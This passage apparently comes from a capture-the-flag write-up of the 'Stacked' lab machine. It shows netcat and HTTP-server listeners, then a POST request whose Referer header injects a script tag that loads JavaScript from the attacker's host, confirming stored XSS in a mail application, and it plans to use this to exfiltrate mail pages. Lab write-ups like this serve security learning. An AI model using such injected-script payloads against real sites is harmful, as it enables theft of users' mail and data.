 ```bash
$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.140.39 - - [19/Mar/2022 18:10:41] code 404, message File not found
10.129.140.39 - - [19/Mar/2022 18:10:41] "GET /referer HTTP/1.1" 404 -
```

Fingerprinting the XSS victim's browser:

```bash
$ sudo nc -nlvp 80
listening on [any] 80 ...
```

```http
POST /process.php HTTP/1.1
Host: portfolio.stacked.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 140
Origin: http://portfolio.stacked.htb
Connection: close
Referer: <script src="http://10.10.14.61/tgihf.js"></script>

fullname=tgihf&email=tgihf%40stacked.htb&tel=111111111111&subject=Great+job!&message=Keep+up+the+good+work,+developing+nice,+secure+systems!
```

Its `User-Agent` indicates it is Firefox. It was referred by `http://mail.stacked.htb/read-mail.php?id=2`.

```bash
$ sudo nc -nlvp 80
listening on [any] 80 ...
connect to [10.10.14.61] from (UNKNOWN) [10.129.140.39] 39598
GET /tgihf.js HTTP/1.1
Host: 10.10.14.61
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:59.0) Gecko/20100101 Firefox/59.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://mail.stacked.htb/read-mail.php?id=2
Connection: keep-alive
```

### Enumeration of `http://mail.stacked.htb`

Leverage the XSS opportunity to have the user retrieve the home page of `http://mail.stacked.htb` and send it to an attacker-controlled endpoint. This will only work if `http://mail.stacked.htb` has an insecure CORS configuration (is this true though since the initial script is initially ran on the `http://mail.stacked.htb` origin?)
